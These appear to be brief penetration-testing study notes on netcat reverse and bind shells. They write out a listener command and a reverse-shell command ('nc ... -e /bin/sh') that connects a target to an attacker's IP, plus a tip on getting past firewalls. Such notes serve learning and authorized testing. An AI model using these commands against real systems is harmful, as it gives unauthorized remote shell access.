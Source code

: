 

#  Exploitation Basics

Source: https://www.hackingtitorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

## **Netcat Reverse Shells** - a victim connect to the attacker

![[Pasted image 20240613164237.png]]


- All we do is to listen via

```
nc -lvp 4444
```

- The target connect to us and establish a shell

```
nc 192.168.1.1 4444 -e /bin/sh
```

Example:

![[Pasted image 20240613165943.png]]

## **Netcat Bind Shells** - an attacker connects to the victim

![[Pasted image 20240613164741.png]]


NOTE: Use reverse shell 95%
Bind shell usually in external assessment
Bypass firewall just listen instead in port forward in FW

